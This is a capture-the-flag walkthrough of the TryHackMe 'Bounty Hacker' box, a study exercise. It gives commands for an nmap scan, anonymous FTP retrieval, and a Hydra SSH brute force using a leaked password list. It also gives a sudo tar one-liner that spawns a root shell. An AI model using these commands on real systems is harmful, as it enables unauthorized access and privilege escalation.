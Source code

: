 # 'Bounty Hacker' box writeup

## Bounty Hacker is a CTF box written by Sevuhl and available on the [TryHackMe platform](https://tryhackme.com)

## Read about [Tar in Linux](https://www.freecodecamp.org/news/tar-in-linux-example-tar-gz-tar-file-and-tar-directory-and-tar-compress-commands/) and [Breaking restricted environment with tar](https://gtfobins.github.io/gtfobins/tar/)

## ![bg](images/background.jpg?raw=true "Title")

+ **We deploy the machine and start with an nmap scan for open ports**

``nmap -sV -sC -oN scan1 10.10.229.13``

+ **We can see 3 open ports with some well known services: ftp, ssh and http, all opened on default ports**

![1](images/nmap_scan.jpg?raw=true "Nmap_scan")

+ **Next, we will try to connect to the ftp service using the default user anonymous**

![2](images/ftp_login.jpg?raw=true "Ftp_login")

+ **Listing the directory, we can observe two `.txt` files uploaded so let's get them**

``mget *.txt``

+ **Reading the `task.txt` file, we can find out who wrote the task list, giving us the first task answer.**
**We list the second txt file, named `locks.txt`, and we can see multiple strings which seems to be some passwords kept in the ftp server.**

```text
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
R3dDrag0nSynd1c4te
dRa6oN5YNDiCATE
ReDDR4g0n5ynDIc4te
R3Dr4gOn2044
RedDr4gonSynd1cat3
R3dDRaG0Nsynd1c@T3
...
```

+ **Let's try to use this password file to connect on the ssh service, using simultaneously the user found in the previous task.**
**The Hydra tool has a brute-force option to crack the login of the ssh service, so we can use it**

```console
hydra -l lin -P locks.txt 10.10.229.13 -t 4 ssh
```

+ **After we execute the brute-force process, Hydra give us the needed user password**

![3](images/hydra_brute.jpg?raw=true "Hydra")

+ **With the given credentials, we will connect to the ssh service**

``ssh lin@10.10.229.13``

+ **We land on the wanted system so we can read our first user flag**

![4](images/first_flag.jpg?raw=true "first_flag")

+ **Running the** ``sudo -l`` **command on @lin user and listing the allowed commands, we can see that user @lin may run the following commands on bountyhacker:**
      ``(root) /bin/tar``

![5](images/whoami.jpg?raw=true "whoami")

+ **Tar is a linux archiving utility, used by a lot of unix system administrators to create compressed archive files or to extract them. Looking into the tar manual, we can see that it has an option that can execute a command during the compress-program**

![6](images/tar.jpg?raw=true "tar manual")

+ **That being said, let's try to break our environment and spawn a shell using privilege escalation, getting access to the @root user**

``sudo tar xf /dev/null -I '/bin/sh -c "sh <&2 1>&2"'``

![Alt text](images/root_flag.jpg?raw=true "root_flag")
